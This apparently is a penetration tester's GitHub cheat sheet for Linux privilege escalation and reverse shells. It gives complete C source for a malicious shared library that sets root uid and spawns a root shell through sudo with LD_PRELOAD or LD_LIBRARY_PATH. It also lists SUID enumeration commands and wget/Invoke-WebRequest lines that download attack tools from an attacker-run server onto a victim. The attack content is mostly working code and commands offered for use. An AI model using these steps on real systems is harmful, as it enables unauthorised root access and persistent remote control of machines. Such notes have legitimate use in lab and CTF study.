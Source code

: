 # PrivEscalation

1. Better listener shell experience
```python -c 'import pty;pty.spawn("/bin/bash")'``` 

2. List sudo capability of the current user
```sudo -l```

3. find interesting tools that can exploit shell
```find / -perm /6000 2>/dev/null | grep '/bin'```

4. https://gtfobins.github.io/ followed the interesting tools that can exploit 

5. env_keep exploit when sudo -l and ```ddl <thetargetedprogram>``` to find its libraries

### Take advantage of LD_PRELOAD
a. compile the library.
```gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/preload.c```
```#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
b. sudo program with the LD_PRELOAD
```sudo LD_PRELOAD=/tmp/preload.so program-name-here```

### Take advantage of LD_LIBRARY_PATH
a. find the libraries used by the program
```ldd /usr/sbin/<program> #for example```
b. compile the library with one of the libraries name
```gcc -o /tmp/<libraryname> -shared -fPIC /home/user/library_path.c```
```#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
c. sudo program with the LD_LIBRARY_PATH
```sudo LD_LIBRARY_PATH=/tmp <programname>```


6. 
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker


# Reverse Shell:
1. https://www.revshells.com/
2. MonkeyPenTest
3. Start webserver using python "sudo python3 -m http.server 80" then download files from victim shell 
Linux :"wget <LOCAL-IP>/socat -O /tmp/socat"
Windows: "Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe"

